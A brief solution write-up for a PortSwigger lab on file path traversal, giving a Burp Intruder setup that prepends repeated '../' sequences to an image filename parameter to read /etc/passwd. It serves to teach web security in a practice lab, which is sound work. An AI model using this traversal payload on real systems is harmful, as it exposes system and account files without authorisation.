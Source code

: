# [Lab: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solutions

intruder:

- attack type: sniper
- positions: `GET /image?filename=§§etc/passwd HTTP/1.1`
- payloads:
  - type: character blocks
  - base string: `../`
  - min length: 0
  - max length: 30
  - step: 3
- result:
  ![result.png](./../img/lab-1-intruder-result.png)
